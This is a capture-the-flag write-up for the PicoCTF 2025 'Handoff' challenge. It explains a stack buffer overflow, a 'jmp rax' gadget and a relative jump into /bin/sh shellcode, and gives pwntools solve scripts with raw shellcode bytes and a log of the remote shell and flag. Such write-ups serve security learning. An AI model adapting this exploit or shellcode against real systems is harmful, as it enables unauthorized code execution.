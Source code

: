 ```yaml
---
title: Handoff
category: PicoCTF-2025
chall_description:
points: 400
solves: 0
tags: Binary-Exploitation
date: 2025-03-09
comments: false
---
```


This challenge is a simple return to stack challenge with ASLR but no PIE. The input size is very restrictive, so a relative jump is required to jump to a larger user controlled buffer. 

---

## Initial Analysis
In the provided source we are given 3 main pieces of functionality: creating a recipient in an array (max of 32 bytes), creating a message for the array (we will not use this), and giving feedback (max of 32 bytes, vulnerable to a buffer overflow). The protections are pretty much non-existent in the compiled binary, but the stack addresses are randomized so we can't just jump to a known address in the stack.
## Obtaining Code Execution
When debugging with gdb, I found the following to occur when I trigger a buffer overflow:
```c
$rax   : 0x00007fffe8752544  →  0x0031313131313131 ("1111111"?)
$rbx   : 0x00007fffe8752688  →  0x00007fffe8752f22  →  "/mnt/share/handoff"
$rcx   : 0x00007f2b5e82da21  →  0x4f77fffff0003d48 ("H="?)
$rdx   : 0xfbad2288        
$rsp   : 0x00007fffe8752558  →  "11111111\n"
$rbp   : 0x3131313131313131 ("11111111"?)
$rsi   : 0x00000000231e52a1  →  "111111111111111111111111111\n"
$rdi   : 0x00007f2b5e90b720  →  0x0000000000000000
$rip   : 0x000000000040140e  →  <vuln+01e5> ret 
$r8    : 0x00000000231e52bd  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x1               
$r13   : 0x0               
$r14   : 0x00007f2b5e958000  →  0x00007f2b5e9592e0  →  0x0000000000000000
$r15   : 0x0
```
`rax` points to our input, which is executable. So, we can just jump to rax using the binary itself. Using cutter we can search for this gadget and find `jmp rax` at `0x40116c`.
```python
from pwn import *
r = process(elf.path)
r.sendline(b'3') # Select the 3rd option, exit and leave feedback
payload = b'\xeb\xfe'*int((20)/2) # basically a 2 byte loop, never exits, 20 bytes is the size before the RIP overwrite
payload += p64(4198764) # Address of jmp rax
print(len(payload))
r.sendline(payload)
r.interactive()
```
We can see that this does work, but now we have to achieve a shell.
## Exploitation, For Real This Time
Breaking at `0x4012f3`, we can intercept the first argument which will be the address of where the name is stored. The value is `0x7ffdd814b3e0` (will change if ran again). Than we can break at `0x4013e8` the exit function's fgets. The value stored there is `0x7ffdd814b6b4`. The offset is 724 bytes, so we can use the relative jump to jump 724 bytes back. After some tweaking the offset is actually 717 (idk why) and we have to pad our shell code. Finally, we have our solve script:
```python
from pwn import *
elf = context.binary = ELF('./handoff')

#r = remote('shape-facility.picoctf.net', 64512)
r = process(elf.path)

payload = b'1\n' # Add name 
payload += b'\x90\x90\x90\x90\x90\x90\x90\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05\n' # Add shellcode /bin/sh
payload += b'3\n' # Exit
payload += b'\xe9\x2e\xfd\xff\xff' + b'0' * 15 # Jump to shellcode
payload += p64(4198764) # Return address, points to jmp rax

r.sendline(payload)
r.interactive()
```
After making sure it works locally, we can test on the server:
```
[*] '/home/h/Downloads/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to shape-facility.picoctf.net on port 53879: Done
[*] Switching to interactive mode
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: 
$ ls
flag.txt
handoff
start.sh
$ cat flag.txt
picoCTF{p1v0ted_ftw_17db5315}
```
